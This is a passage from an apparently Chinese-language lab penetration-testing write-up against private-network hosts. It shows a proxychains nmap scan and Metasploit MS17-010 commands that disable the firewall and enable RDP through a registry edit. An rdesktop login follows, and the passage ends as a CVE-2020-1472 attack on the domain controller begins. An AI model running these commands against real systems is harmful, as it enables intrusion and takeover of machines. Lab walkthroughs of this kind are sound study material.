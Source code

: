 
```bash
┌──(root㉿kali)-[~]
└─# proxychains4 nmap -Pn -T4 -sT -p80,135,445,3389 192.168.52.141
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-03 11:36 EDT
[proxychains] Strict chain  ...  192.168.170.91:1234  ...  192.168.52.141:135  ...  OK
[proxychains] Strict chain  ...  192.168.170.91:1234  ...  192.168.52.141:445  ...  OK
[proxychains] Strict chain  ...  192.168.170.91:1234  ...  192.168.52.141:80 <--socket error or timeout!
[proxychains] Strict chain  ...  192.168.170.91:1234  ...  192.168.52.141:3389  ...  OK
Nmap scan report for bogon (192.168.52.141)
Host is up (0.12s latency).

PORT     STATE  SERVICE
80/tcp   closed http
135/tcp  open   msrpc
445/tcp  open   microsoft-ds
3389/tcp open   ms-wbt-server
```

#### 打MS17-010

然后利用`msf`打`MS17-010`漏洞

> `REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f`开启3389远程桌面
>
> `REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 11111111 /f`关闭3389远程桌面

```
search ms17
use auxiliary/admin/smb/ms17_010_command
set RHOSTS 192.168.52.141
set command 'netsh advfirewall set allprofiles state off'
exploit
set command 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f'
exploit
```

远程控制`Windows Server 2003`

```
proxychains4 rdesktop 192.168.52.141 -p dabaisec@2024 -u Administrator
```

![image-20240504212054404](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240504212054404.png)

不知道为什么打不通域控这台主机，我们就用`CVE-2020-1472`将域控的密码置空

#### CVE-2020-1472的利用
